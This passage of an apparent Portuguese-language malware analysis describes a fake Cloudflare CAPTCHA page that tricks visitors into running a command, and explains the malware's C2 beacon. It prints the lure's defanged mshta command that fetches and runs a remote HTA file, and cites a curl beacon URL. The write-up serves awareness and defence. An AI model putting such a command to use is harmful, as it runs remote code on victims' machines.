   </figcaption>
</figure>

E quando clicado para verificar o robot, ele solicita a execução via comando executável:

<figure style="text-align: center;">
  <img src="image-1.png" alt="" style="display: block; background-color: white; margin-left: auto; margin-right: auto; max-width: 100%; height: 400px;">
  <figcaption>
    <i><strong>Figura 3.</strong> Site falso da CloudFlare solicitando execução.</i>
  </figcaption>
</figure>

Que nos mostra o seguinte comando:

```
# NÃO EXECUTAR
mshta hxxps://cloudflair[.]org/bb.hta # UІD: 873310 – Ι аm not а robot – Vеrіfу СΑРΤСНА ѕеquеnсе
```
Isso é só mais uma forma de enganar o usuário achando que tá fazendo uma validação real.

A execução do comando é bloqueado pelo Windows Defender, se ativo:

<figure style="text-align: center;">
  <img src="image-4.png" alt="" style="display: block; background-color: white; margin-left: auto; margin-right: auto; max-width: 100%; height: auto;">
  <figcaption>
    <i><strong>Figura 4.</strong> Código executado bloqueado pelo Windows Defender.</i>
  </figcaption>
</figure>


[^1]: Em um contexto de malware ou C2 (Command & Control), um `beacon` é uma comunicação feita por uma máquina comprometida para o servidor do atacante, com o objetivo de sinalizar que está ativa ou como um "sinal de vida (Healthy)", para confirmar que a infecção foi bem-sucedida. Além de confirmar a presença do malware, ele pode enviar informações básicas do sistema e aguardar comandos. No nosso caso, o `beacon` é enviado quando o script executa um `curl` para o C2 hxxps://upload[.]cloudflair.org/beacon, funcionando como um "check-in" inicial informando que o malware foi ativado/executado com sucesso.